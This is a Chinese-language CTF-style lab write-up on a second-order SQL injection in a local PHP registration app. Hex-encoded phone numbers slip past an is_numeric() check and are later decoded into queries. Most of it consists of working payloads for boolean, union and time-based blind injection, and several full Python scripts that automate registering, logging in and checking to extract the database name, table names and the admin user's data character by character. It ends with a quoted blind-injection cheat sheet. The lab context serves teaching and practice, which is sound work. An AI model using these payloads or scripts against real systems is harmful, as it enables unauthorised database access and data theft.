



## 流程熟悉
先启动环境
```
docker-compose build 
docker-compose up -d 
```


我先按照注册的流程走了一遍

注册了两个手机号是123456的账户


感觉phone有问题，语句应该是
```

select count(*) from tabel_name where phone='123456'

```


但是这边还有一个问题，注册的时候会检查phone是否是数字


用的是php的is_numeric() 函数 ，该函数判断变量是否为数字或数字字符串，10进制和16进制都会判定为True，下面是python的ascii和hex的转换函数

```
def ascii2hex(str1):
    #ascii字符串转换为十六进制
    shad = str1.encode(encoding="utf-8")
    luffy = shad.hex()
    resu = "0x"+luffy

    return resu


def hex2ascii(h):
    #16进制字符串转ascii
    h = h.replace("0x", "")
    list_s = []
    for i in range(0,len(h),2):
        list_s.append(chr(int(h[i:i+2].upper(),16)))
    return ''.join(list_s)

shadow = ascii2hex("123456' and ascii(substr((select phone from user limit 0,1),1,1)) = 97 #")
```


相应的php程序在取出数据的时候也会进行16进制转换


函数原型是
```


function hex2asc($str) {
    if(substr($str,0,2)!="0x"){
        return $str;
    }
    $data = "";
    $str = join('',explode('\x',$str));
    $len = strlen($str);
    for ($i=0;$i<$len;$i+=2)
        $data.=chr(hexdec(substr($str,$i,2)));

    $data = *str_replace*(**"\0"**, **''**, $data);

    return $data;
}

```

我准备了三个payload，原型分别是
```
123456' and 's'='s' --+
123456' and 's'='s' #
123456' and 's'='s
```

测试用的payload1
```
123456' and 's'='s' --+ => 0x3132333435362720616e64202773273d277327202d2d2b
```


frtch_all的问题


测试用的payload2
```
123456' and 's'='s' # => 0x3132333435362720616e64202773273d2773272023
```


看起来执行的语句是True了
```
123456' and 's'='a' # => 0x3132333435362720616e64202773273d276127
```


这个payload可以用来执行盲注


payload3
```
123456' and 's'='s => 0x3132333435362720616e64202773273d2773
```


```
123456' and 's'='a => 0x3132333435362720616e64202773273d2761
```


也可以利用


## 0x01 显错注入

利用一个典型的显错语句试试
```
123456' " *SELECT-x => 0x313233343536272022202a53454c4543542d78
```


查看当前数据库


```
123456' union select phone from user # => 0x3132333435362720756e696f6e2073656c6563742070686f6e652066726f6d20757365722023

```


## 0x02 盲注
1. 判断当前数据库长度
```
123456' and length(database()) = 4 # => 0x3132333435362720616e64206c656e677468286461746162617365282929203d20342023
```


如果不是4的话

```
123456' and length(database()) = 5 # => 0x3132333435362720616e64206c656e677468286461746162617365282929203d20352023
```


下一步就是猜数据库的名字了

```
123456' and ascii(substr(database(),1,1)) = 76 #
```

错误的情况下


正确的情况下

```
123456' and ascii(substr(database(),1,1)) = 116 # => 0x3132333435362720616e642061736369692873756273747228646174616261736528292c312c312929203d203131362023
```




效率起见，用python写了一套脚本
```
import requests
import random

import time

def ascii2hex(str1):
    #ascii字符串转换为十六进制
    shad = str1.encode(encoding="utf-8")
    luffy = shad.hex()
    resu = "0x"+luffy

    return resu


def hex2ascii(h):
    #16进制字符串转ascii
    h = h.replace("0x", "")
    list_s = []
    for i in range(0,len(h),2):
        list_s.append(chr(int(h[i:i+2].upper(),16)))
    return ''.join(list_s)


sess = requests.Session()

flag_list = []

for j in range(1, 5):

    for i in range(33,127):
        username = "user"+str(random.randint(10000,99999))

    # shadow = ascii2hex("123456' and if(length(database())="+str(i)+",0,sleep(5)) #")
    #shadow = ascii2hex("13969151348' and length(database())="+str(i)+" #")

    # shadow = ascii2hex("123456' and if(length(select phone from user)="+str(i)+",sleep(4),1) #")
        str1 = "123456' and ascii(substr(database(),"+str(j)+",1)) = "+str(i)+" #"
        shadow = ascii2hex(str1)

        print(str1, username)
        import requests

        burp0_url = "http://127.0.0.1:80/api.php?method=register"
        burp0_cookies = {"PHPSESSID": "181da04dbbcba427383a34bd6a0d68ec"}
        burp0_headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0",
            "Accept": "*/*", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate", "Referer": "http://127.0.0.1/register.php",
            "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest",
            "Connection": "close"}
        burp0_data = {"username": username, "password": username, "phone": shadow}
        requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


        burp1_url = "http://127.0.0.1:80/api.php?method=login"
        burp1_headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0",
            "Accept": "*/*", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate", "Referer": "http://127.0.0.1/login.php",
            "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest",
            "Connection": "close"}
        burp1_data = {"username": username, "password": username}
        sess.post(burp1_url, headers=burp1_headers, data=burp1_data)


        time1 = time.time()


        burp2_url = "http://127.0.0.1:80/check.php"
        burp2_headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate", "Referer": "http://127.0.0.1/index.php", "Connection": "close",
            "Upgrade-Insecure-Requests": "1"}
        response = sess.get(burp2_url, headers=burp2_headers)
        time2 = time.time()


        if "Your phone used by 0 people" not in response.text:
            char = chr(i)
            flag_list.append(char)
            break

print("".join(flag_list))
```


2. 判断表的名字
猜表的数量
```
123456' and (select count(*) from information_schema.tables where table_schema=database())=1 #
```




只有一个表

猜表名的长度
```
123456' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 #

```


同样还是上python

```
import requests
import random

import time

def ascii2hex(str1):
    #ascii字符串转换为十六进制
    shad = str1.encode(encoding="utf-8")
    luffy = shad.hex()
    resu = "0x"+luffy

    return resu


def hex2ascii(h):
    #16进制字符串转ascii
    h = h.replace("0x", "")
    list_s = []
    for i in range(0,len(h),2):
        list_s.append(chr(int(h[i:i+2].upper(),16)))
    return ''.join(list_s)


sess = requests.Session()

flag_list = []


for i in range(1, 9):
    username = "user"+str(random.randint(10000,99999))

# shadow = ascii2hex("123456' and if(length(database())="+str(i)+",0,sleep(5)) #")
#shadow = ascii2hex("13969151348' and length(database())="+str(i)+" #")

# shadow = ascii2hex("123456' and if(length(select phone from user)="+str(i)+",sleep(4),1) #")
    str1 = "123456' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))="+str(i)+"#"
    shadow = ascii2hex(str1)

    print(str1, username)
    import requests

    burp0_url = "http://127.0.0.1:80/api.php?method=register"
    burp0_cookies = {"PHPSESSID": "181da04dbbcba427383a34bd6a0d68ec"}
    burp0_headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0",
        "Accept": "*/*", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate", "Referer": "http://127.0.0.1/register.php",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest",
        "Connection": "close"}
    burp0_data = {"username": username, "password": username, "phone": shadow}
    requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


    burp1_url = "http://127.0.0.1:80/api.php?method=login"
    burp1_headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0",
        "Accept": "*/*", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate", "Referer": "http://127.0.0.1/login.php",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest",
        "Connection": "close"}
    burp1_data = {"username": username, "password": username}
    sess.post(burp1_url, headers=burp1_headers, data=burp1_data)


    time1 = time.time()


    burp2_url = "http://127.0.0.1:80/check.php"
    burp2_headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate", "Referer": "http://127.0.0.1/index.php", "Connection": "close",
        "Upgrade-Insecure-Requests": "1"}
    response = sess.get(burp2_url, headers=burp2_headers)
    time2 = time.time()


    if "Your phone used by 0 people" not in response.text:

        print(i)
        break

```


结果最后是4


表的长度是4
猜表的名字

payload 
```
123456' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=66 # => 0x3132333435362720616e6420617363696928737562737472282873656c656374207461626c655f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d64617461626173652829206c696d697420302c31292c312c3129293d36362023
```


还是用python 解决吧
但是Python跑的时候却出问题了

```
import requests
import random

import time

def ascii2hex(str1):
    #ascii字符串转换为十六进制
    shad = str1.encode(encoding="utf-8")
    luffy = shad.hex()
    resu = "0x"+luffy

    return resu


def hex2ascii(h):
    #16进制字符串转ascii
    h = h.replace("0x", "")
    list_s = []
    for i in range(0,len(h),2):
        list_s.append(chr(int(h[i:i+2].upper(),16)))
    return ''.join(list_s)


sess = requests.Session()

flag_list = []


for i in range(31, 127):
    username = "luffy"+str(random.randint(1000,9999))

# shadow = ascii2hex("123456' and if(length(database())="+str(i)+",0,sleep(5)) #")
#shadow = ascii2hex("13969151348' and length(database())="+str(i)+" #")

# shadow = ascii2hex("123456' and if(length(select phone from user)="+str(i)+",sleep(4),1) #")
    str1 = "123456' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))="+str(i)+" #"
    shadow = ascii2hex(str1)

    print(str1, username)
    import requests

    burp0_url = "http://127.0.0.1:80/api.php?method=register"
    burp0_cookies = {"PHPSESSID": "181da04dbbcba427383a34bd6a0d68ec"}
    burp0_headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0",
        "Accept": "*/*", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate", "Referer": "http://127.0.0.1/register.php",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest",
        "Connection": "close"}
    burp0_data = {"username": username, "password": username, "phone": shadow}
    requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


    burp1_url = "http://127.0.0.1:80/api.php?method=login"
    burp1_headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0",
        "Accept": "*/*", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate", "Referer": "http://127.0.0.1/login.php",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest",
        "Connection": "close"}
    burp1_data = {"username": username, "password": username}
    sess.post(burp1_url, headers=burp1_headers, data=burp1_data)


    time1 = time.time()


    burp2_url = "http://127.0.0.1:80/check.php"
    burp2_headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate", "Referer": "http://127.0.0.1/index.php", "Connection": "close",
        "Upgrade-Insecure-Requests": "1"}
    response = sess.get(burp2_url, headers=burp2_headers)
    time2 = time.time()


    if "Your phone used by 0 people" not in response.text:

        print(i)
        break

```




猜了一下他的列是phone，表名是user 直接上时间注入

```
import requests
import random

import time

def ascii2hex(str1):
    #ascii字符串转换为十六进制
    shad = str1.encode(encoding="utf-8")
    luffy = shad.hex()
    resu = "0x"+luffy

    return resu


def hex2ascii(h):
    #16进制字符串转ascii
    h = h.replace("0x", "")
    list_s = []
    for i in range(0,len(h),2):
        list_s.append(chr(int(h[i:i+2].upper(),16)))
    return ''.join(list_s)


flag_list = []


for j in range(1,30):

    for i in range(33, 127):

        sess = requests.Session()

        username = "sanji"+str(random.randint(10000,99999))

        str2 = "123456' and if(ascii(substr((select phone from user where username='admin' limit 0,1),"+str(j)+",1))="+str(i)+",sleep(6),0) #"
        shadow = ascii2hex(str2)

        sess.cookies.clear()


        burp0_url = "http://127.0.0.1:80/api.php?method=register"

        burp0_headers = {
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0",
    "Accept": "*/*", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate", "Referer": "http://127.0.0.1/register.php",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest",
    "Connection": "close"}
        burp0_data = {"username": username, "password": username, "phone": shadow}
        requests.post(burp0_url, headers=burp0_headers, data=burp0_data)


        burp1_url = "http://127.0.0.1:80/api.php?method=login"
        burp1_headers = {
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0",
    "Accept": "*/*", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate", "Referer": "http://127.0.0.1/login.php",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest",
    "Connection": "close"}
        burp1_data = {"username": username, "password": username}
        sess.post(burp1_url, headers=burp1_headers, data=burp1_data)


        time1 = time.time()


        burp2_url = "http://127.0.0.1:80/check.php"
        burp2_headers = {
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate", "Referer": "http://127.0.0.1/index.php", "Connection": "close",
    "Upgrade-Insecure-Requests": "1"}
        response = sess.get(burp2_url, headers=burp2_headers)
        time2 = time.time()


    # print(str2)
        if time2-time1 > 3:
            print(str2)
            print(j, username, print(chr(i)))

            flag_list.append(chr(i))


print("".join(flag_list))

```


flag跑的时候好像遗漏了一位
再单独跑一下即可


## 内容链接

```
猜解当前数据库名
输入 1 ’  and length(database())=1 # ，显示不存在；
输入 1 ’  and length(database())=2 # ，显示不存在；
输入 1 ’  and length(database())=3 # ，显示不存在；
输入 1 ’  and length(database())=4 # ，显示存在： 

采用二分法猜解数据库名
 输入 1’ and ascii(substr(databse(),1,1))>97 # ，显示存在，说明数据库名的第一个字符的 ascii 值大于 97 （小写字母 a 的 ascii 值）；
输入 1’ and ascii(substr(databse(),1,1))<122 # ，显示存在，说明数据库名的第一个字符的 ascii 值小于 122 （小写字母 z 的 ascii 值）；
输入 1’ and ascii(substr(databse(),1,1))<109 # ，显示存在，说明数据库名的第一个字符的 ascii 值小于 109 （小写字母 m 的 ascii 值）；
输入 1’ and ascii(substr(databse(),1,1))<103 # ，显示存在，说明数据库名的第一个字符的 ascii 值小于 103 （小写字母 g 的 ascii 值）；
输入 1’ and ascii(substr(databse(),1,1))<100 # ，显示不存在，说明数据库名的第一个字符的 ascii 值不小于 100 （小写字母 d 的 ascii 值）；
输入 1’ and ascii(substr(databse(),1,1))>100 # ，显示不存在，说明数据库名的第一个字符的 ascii 值不大于 100 （小写字母 d 的 ascii 值），所以数据库名的第一个字符的 ascii 值为 100 ，即小写字母 d 。 

猜解数据库中的表名
1’ and (select count (table_name) from information_schema.tables where table_schema=database())=1 #显示不存在
1’ and (select count (table_name) from information_schema.tables where table_schema=database() )=2 #显示存在 
1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 #显示不存在
1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=2 #显示不存在
…
1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #显示存在
说明第一个表名长度为 9 。

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 # 显示存在
1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<122 # 显示存在
1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<109 # 显示存在
1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<103 # 显示不存在
1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103 # 显示不存在
说明第一个表的名字的第一个字符为小写字母g。
```

